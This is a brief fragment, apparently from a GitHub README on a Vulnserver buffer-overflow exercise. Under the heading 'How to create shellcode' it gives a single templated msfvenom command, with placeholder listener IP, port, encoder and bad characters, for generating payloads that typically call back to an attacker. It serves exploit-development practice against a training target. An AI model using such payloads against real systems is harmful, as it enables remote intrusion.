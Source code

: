 ### How to create shellcode ?
# msfvenom -p [payload] LHOST=[IP Address] LPORT=[PORT] -e [encoder] --platform [platform] -b [badchars] -f [Format output ( C ) ]
![sck1ddie](https://raw.githubusercontent.com/sck1ddie/Vulnserver-Buffer-Overflow/main/bofsck1ddie.png)
